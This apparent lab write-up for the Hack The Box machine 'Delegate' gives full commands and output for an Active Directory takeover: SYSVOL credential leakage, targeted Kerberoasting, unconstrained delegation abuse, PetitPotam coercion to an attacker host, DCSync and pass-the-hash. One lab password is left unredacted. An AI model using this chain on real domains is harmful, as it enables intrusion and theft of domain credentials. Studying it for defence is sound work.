

Delegate-WriteUp
In this Windows Active Directory machine rated Medium, we'll compromise a Domain Controller by chaining several misconfigurations starting from unauthenticated SMB access. The key insight is that a logon script stored in SYSVOL leaks credentials in plaintext, and the compromised user has SeEnableDelegationPrivilege, which allows us to configure Unconstrained Delegation on a machine account we create. Ultimately capturing a TGT from the DC itself. You will learn how to:
- Enumerate SMB shares anonymously and read SYSVOL logon scripts
- Extract plaintext credentials from
.batfiles in Group Policy scripts - Perform Targeted Kerberoasting when you have
GenericWriteover a user - Crack TGS hashes offline with
hashcatandrockyou.txt - Abuse
SeEnableDelegationPrivilege+SeMachineAccountPrivilegeto create a machine account with Unconstrained Delegation - Add DNS records and SPNs to AD via LDAP
- Capture a Domain Controller TGT using
krbrelayx+PetitPotam - Perform DCSync with the captured TGT to dump all domain hashes
🧰 Tools used: nmap, nxc, smbclient, targetedKerberoast.py, hashcat, evil-winrm, addcomputer.py, bloodyAD, addspn.py, dnstool.py, krbrelayx.py, PetitPotam.py, secretsdump.py.
Let's get started.
Port Scanning
We started with a full TCP SYN scan across all ports on the target.
sudo nmap --open -Pn -p- -sS -n -vvv 10.129.234.69
PORT STATE SERVICE REASON
53/tcp open domain syn-ack ttl 127
88/tcp open kerberos-sec syn-ack ttl 127
135/tcp open msrpc syn-ack ttl 127
139/tcp open netbios-ssn syn-ack ttl 127
389/tcp open ldap syn-ack ttl 127
445/tcp open microsoft-ds syn-ack ttl 127
464/tcp open kpasswd5 syn-ack ttl 127
593/tcp open http-rpc-epmap syn-ack ttl 127
636/tcp open ldapssl syn-ack ttl 127
3268/tcp open globalcatLDAP syn-ack ttl 127
3269/tcp open globalcatLDAPssl syn-ack ttl 127
3389/tcp open ms-wbt-server syn-ack ttl 127
5985/tcp open wsman syn-ack ttl 127
9389/tcp open adws syn-ack ttl 127
47001/tcp open winrm syn-ack ttl 127
49664/tcp open unknown syn-ack ttl 127
49665/tcp open unknown syn-ack ttl 127
49666/tcp open unknown syn-ack ttl 127
49668/tcp open unknown syn-ack ttl 127
49669/tcp open unknown syn-ack ttl 127
49670/tcp open unknown syn-ack ttl 127
49671/tcp open unknown syn-ack ttl 127
49673/tcp open unknown syn-ack ttl 127
50078/tcp open unknown syn-ack ttl 127
51525/tcp open unknown syn-ack ttl 127
60893/tcp open unknown syn-ack ttl 127
60899/tcp open unknown syn-ack ttl 127
Classic Domain Controller port profile. All expected AD services are present, plus WinRM on 5985 which will be useful later.
Service Enumeration
nmap -sVC -p53,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389,47001,49664,49665,49666,49668,49669,49670,49671,49673,50078,51525,60893,60899 10.129.234.69 -Pn
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2026-04-15 19:59:22Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: delegate.vl, Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: delegate.vl, Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
3389/tcp open ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC1.delegate.vl
| Not valid before: 2026-04-14T19:49:17
|_Not valid after: 2026-10-14T19:49:17
| rdp-ntlm-info:
| Target_Name: DELEGATE
| NetBIOS_Domain_Name: DELEGATE
| NetBIOS_Computer_Name: DC1
| DNS_Domain_Name: delegate.vl
| DNS_Computer_Name: DC1.delegate.vl
| DNS_Tree_Name: delegate.vl
| Product_Version: 10.0.20348
|_ System_Time: 2026-04-15T20:00:21+00:00
|_ssl-date: 2026-04-15T20:01:00+00:00; -20s from scanner time.
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open mc-nmf .NET Message Framing
47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open msrpc Microsoft Windows RPC
49665/tcp open msrpc Microsoft Windows RPC
49666/tcp open msrpc Microsoft Windows RPC
49668/tcp open msrpc Microsoft Windows RPC
49669/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49670/tcp open msrpc Microsoft Windows RPC
49671/tcp open msrpc Microsoft Windows RPC
49673/tcp open msrpc Microsoft Windows RPC
50078/tcp open msrpc Microsoft Windows RPC
51525/tcp open msrpc Microsoft Windows RPC
60893/tcp open msrpc Microsoft Windows RPC
60899/tcp open msrpc Microsoft Windows RPC
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode:
| 3.1.1:
|_ Message signing enabled and required
|_clock-skew: mean: -20s, deviation: 0s, median: -20s
| smb2-time:
| date: 2026-04-15T20:00:22
|_ start_date: N/A
Domain is delegate.vl, DC hostname is DC1. Windows Server 2022 (build 20348). SMB signing is required, which rules out NTLM relay attacks over SMB.
I add delegate.vl and DC1.delegate.vl to /etc/hosts
SMB Enumeration
We check whether null/guest authentication is allowed on SMB shares.
nxc smb 10.129.234.69 -u 'Guest' -p '' --shares
SMB 10.129.234.69 445 DC1 [+] delegate.vl\Guest:
SMB 10.129.234.69 445 DC1 Share Permissions
SMB 10.129.234.69 445 DC1 IPC$ READ
SMB 10.129.234.69 445 DC1 NETLOGON READ
SMB 10.129.234.69 445 DC1 SYSVOL READ
Guest authentication works and we have read access to SYSVOL and NETLOGON. These are default shares on every DC, but they can contain Group Policy files and logon scripts — a common source of sensitive information.
SYSVOL Enumeration
smbclient -N //10.129.234.69/SYSVOL -c 'recurse; ls'
<SNIP>
\delegate.vl\scripts
users.bat A 159 Sat Aug 26 09:54:29 2023
<SNIP>
There's a users.bat script in the scripts directory. We download the entire SYSVOL tree and inspect it.
smbclient -N //10.129.234.69/SYSVOL -c 'prompt OFF; recurse ON; mget *'
❯ tree
.
├── DfsrPrivate
├── Policies
│ ├── {31B2F340-016D-11D2-945F-00C04FB984F9}
│ │ ├── GPT.INI
│ │ ├── MACHINE
│ │ │ ├── Microsoft
│ │ │ │ └── Windows NT
│ │ │ │ └── SecEdit
│ │ │ │ └── GptTmpl.inf
│ │ │ ├── Registry.pol
│ │ │ └── Scripts
│ │ │ ├── Shutdown
│ │ │ └── Startup
│ │ └── USER
│ └── {6AC1786C-016F-11D2-945F-00C04fB984F9}
│ ├── GPT.INI
│ ├── MACHINE
│ │ └── Microsoft
│ │ └── Windows NT
│ │ └── SecEdit
│ │ └── GptTmpl.inf
│ └── USER
└── scripts
└── users.bat
19 directories, 6 files
cat scripts/users.bat -p
rem @echo off
net use * /delete /y
net use v: \\dc1\development
if %USERNAME%==A.Briggs net use h: \\fileserver\backups /user:Administrator <REDACTED>
A plaintext password is hardcoded in the logon script. The script maps a network drive for user A.Briggs using Administrator as the username with password <REDACTED>. We try it directly against A.Briggs:
nxc smb 10.129.234.69 -u 'A.Briggs' -p '<REDACTED>'
SMB 10.129.234.69 445 DC1 [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB 10.129.234.69 445 DC1 [+] delegate.vl\A.Briggs:<REDACTED>
Valid credentials for A.Briggs.
Targeted Kerberoasting — N.Thompson
With BloodHound we confirm that A.Briggs has GenericWrite over N.Thompson. This allows us to set an SPN on N.Thompson and request a TGS ticket for it — a technique known as Targeted Kerberoasting.

python3 targetedKerberoast.py -d delegate.vl -u 'A.Briggs' -p '<REDACTED>'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (N.Thompson)
$krb5tgs$23$*N.Thompson$DELEGATE.VL$delegate.vl/N.Thompson*$26f9d0fd35f2e256<REDACTED_HASH>
We crack it offline with hashcat:
hashcat -m 13100 n.thompson_hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
$krb5tgs$23$*N.Thompson$<REDACTED_HASH>:<REDACTED>
Shell as N.Thompson and User Flag
nxc winrm 10.129.234.69 -u 'N.Thompson' -p '<REDACTED>'
WINRM 10.129.234.69 5985 DC1 [*] Windows Server 2022 Build 20348 (name:DC1) (domain:delegate.vl)
WINRM 10.129.234.69 5985 DC1 [+] delegate.vl\N.Thompson:<REDACTED> (Pwn3d!)
evil-winrm -i 10.129.234.69 -u 'N.Thompson' -p '<REDACTED>'
Evil-WinRM shell v3.9
<SNIP>
*Evil-WinRM* PS C:\Users\N.Thompson\Documents>
Privilege Enumeration
*Evil-WinRM* PS C:\Users\N.Thompson\Documents> whoami /all
USER INFORMATION
----------------
User Name SID
=================== ==============================================
delegate\n.thompson S-1-5-21-1484473093-3449528695-2030935120-1108
GROUP INFORMATION
-----------------
Group Name Type SID Attributes
=========================================== ================ ============================================== ==================================================
Everyone Well-known group S-1-1-0 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users Alias S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users Alias S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK Well-known group S-1-5-2 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users Well-known group S-1-5-11 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization Well-known group S-1-5-15 Mandatory group, Enabled by default, Enabled group
DELEGATE\delegation admins Group S-1-5-21-1484473093-3449528695-2030935120-1121 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication Well-known group S-1-5-64-10 Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label S-1-16-8448
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ============================================================== =======
SeMachineAccountPrivilege Add workstations to domain Enabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeEnableDelegationPrivilege Enable computer and user accounts to be trusted for delegation Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
USER CLAIMS INFORMATION
-----------------------
User claims unknown.
Kerberos support for Dynamic Access Control on this device has been disabled.
Two critical privileges stand out:
SeMachineAccountPrivilege— lets us add a new machine account to the domain.SeEnableDelegationPrivilege— lets us configure Unconstrained Delegation on any account we control.
With these two together the attack path is clear: create a machine account, enable Unconstrained Delegation on it, force the DC to authenticate to it, and capture its TGT.
Privilege Escalation — Unconstrained Delegation + PetitPotam
Step 1 — Create a machine account and enable Unconstrained Delegation
addcomputer.py delegate.vl/N.Thompson:'<REDACTED>' -computer-name 'EVILPC$' -computer-pass 'EvilPass123!' -dc-ip 10.129.234.69
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies
[*] Successfully added machine account EVILPC$ with password EvilPass123!.
bloodyAD -d delegate.vl -u 'N.Thompson' -p '<REDACTED>' -H 10.129.234.69 set object 'EVILPC$' userAccountControl -v 528384
[+] EVILPC$'s userAccountControl has been updated
We verify the delegation flag was applied:
bloodyAD -d delegate.vl -u 'N.Thompson' -p '<REDACTED>' -H 10.129.234.69 get object 'EVILPC$' --attr userAccountControl
distinguishedName: CN=EVILPC,CN=Computers,DC=delegate,DC=vl
userAccountControl: WORKSTATION_TRUST_ACCOUNT; TRUSTED_FOR_DELEGATION
Step 2 — Add SPNs and a DNS record for EVILPC
For krbrelayx to decrypt the incoming Kerberos tickets, the DC must authenticate using Kerberos (not NTLM). This only happens if it can resolve EVILPC.delegate.vl to our IP and find a matching SPN.
python3 addspn.py -u 'delegate.vl\N.Thompson' -p '<REDACTED>' -s 'HOST/EVILPC.delegate.vl' -t 'EVILPC$' --additional ldap://10.129.234.69
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[+] SPN Modified successfully
python3 dnstool.py -u 'delegate.vl\N.Thompson' -p '<REDACTED>' -r 'EVILPC' -a add -d <ATTACKER_IP> -dc-ip 10.129.234.69 10.129.234.69
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
python3 addspn.py -u 'delegate.vl\N.Thompson' -p '<REDACTED>' -s 'HOST/EVILPC.delegate.vl' -t 'EVILPC$' ldap://10.129.234.69
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[+] SPN Modified successfully
Step 3 — Capture the TGT with krbrelayx + PetitPotam
Terminal 1 — Start krbrelayx in Unconstrained Delegation mode. The --krbsalt and --krbpass values are used to decrypt incoming tickets encrypted with EVILPC$'s key:
sudo python3 krbrelayx.py --krbsalt 'DELEGATE.VLEVILPC$' --krbpass 'EvilPass123!' \
--interface-ip <ATTACKER_IP>
[*] Protocol Client SMB loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Running in export mode (all tickets will be saved to disk). Works with unconstrained delegation attack only.
[*] Running in unconstrained delegation abuse mode using the specified credentials.
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up DNS Server
[*] Servers started, waiting for connections
Terminal 2 — Use PetitPotam to coerce DC1 into authenticating to EVILPC.delegate.vl. PetitPotam abuses the MS-EFSRPC protocol to force a machine to send its credentials to an attacker-controlled server:
python3 PetitPotam.py -u 'N.Thompson' -p 'KALEB_2341' -d delegate.vl \
EVILPC.delegate.vl DC1.delegate.vl
/home/n0name/Documents/HTBLabs/Machines/Medium/Delegate/PetitPotam.py:23: SyntaxWarning: "\ " is an invalid escape sequence. Such sequences will not work in the future. Did you mean "\\ "? A raw string is also an option.
| _ \ ___ | |_ (_) | |_ | _ \ ___ | |_ __ _ _ __
___ _ _ _ ___ _
| _ \ ___ | |_ (_) | |_ | _ \ ___ | |_ __ _ _ __
| _/ / -_) | _| | | | _| | _/ / _ \ | _| / _` | | ' \
_|_|_ \___| _\__| _|_|_ _\__| _|_|_ \___/ _\__| \__,_| |_|_|_|
_| """ |_|"""""|_|"""""|_|"""""|_|"""""|_| """ |_|"""""|_|"""""|_|"""""|_|"""""|
"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'
PoC to elicit machine account authentication via some MS-EFSRPC functions
by topotam (@topotam77)
Inspired by @tifkin_ & @elad_shamir previous work on MS-RPRN
Trying pipe lsarpc
[-] Connecting to ncacn_np:DC1.delegate.vl[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
[+] OK! Using unpatched function!
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!
Back in Terminal 1:
[*] Setting up DNS Server
[*] Servers started, waiting for connections
[*] SMBD: Received connection from 10.129.234.69
[*] Got ticket for DC1$@DELEGATE.VL [krbtgt@DELEGATE.VL]
[*] Saving ticket in DC1$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache
[*] SMBD: Received connection from 10.129.234.69
[*] Got ticket for DC1$@DELEGATE.VL [krbtgt@DELEGATE.VL]
[*] Saving ticket in DC1$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache
The DC authenticated to our fake server using Kerberos. Because EVILPC$ has Unconstrained Delegation enabled, the DC's TGT was embedded in the service ticket and krbrelayx extracted and saved it to disk.
Step 4 — DCSync with DC1$'s TGT
export KRB5CCNAME='DC1$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache'
secretsdump.py -k -no-pass DC1.delegate.vl -just-dc-ntlm
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
Administrator:500:<REDACTED_HASH>
krbtgt:502:<REDACTED_HASH>
A.Briggs:1104:<REDACTED_HASH>
N.Thompson:1108:<REDACTED_HASH>
DC1$:1000:<REDACTED_HASH>
<SNIP>
All domain hashes dumped.
Shell as Administrator — Root Flag
evil-winrm -i 10.129.234.69 -u Administrator -H <REDACTED_HASH>
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
<ROOT_FLAG>
Rooted!